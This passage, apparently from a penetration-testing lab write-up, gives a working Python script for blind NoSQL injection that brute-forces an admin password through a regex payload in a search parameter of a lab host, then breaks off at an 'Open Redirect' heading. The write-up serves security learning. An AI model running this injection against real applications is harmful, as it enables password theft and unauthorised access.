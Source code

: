 This can be used to perform blind injection.

```python
import requests
from bs4 import BeautifulSoup as soup
url="http://ptl-c162f749-e970c7c8.libcurl.so/?search=admin"
payload_start="%27%20%26%26%20this.password.match(/.*/)"
payload_end="%00"
force="abcdef0123456789-"
found=False
def check(payload):
    payload_start="%27%20%26%26%20this.password.match(/^"
    payload_end="$/)%00"
    x=requests.get(url+payload_start+payload+payload_end)
    response=x.text
    s = soup(response,'html.parser')
    for tr in s.find_all('a'):
        if "admin" in tr:
            return True
    return False
def checkPattern(payload):
    payload_start="%27%20%26%26%20this.password.match(/^"
    payload_end=".*$/)%00"
    final_url=url+payload_start+payload+payload_end
    x=requests.get(final_url)
    # print(final_url)
    response=x.text
    s = soup(response,'html.parser')
    for tr in s.find_all('a'):
        if "admin" in tr:
            return True
    return False

payload=""
while found!=True:
    for t in force:
        # print(t)
        # print(payload)
        if (checkPattern(payload+t)):
            payload=payload+t
            print(payload)
    if (check(payload)):
        found=True

```

## Open Redirect

This is low impact vulnerability unless we are able to extract O-Auth Tokens.

### Open Redirect - 1

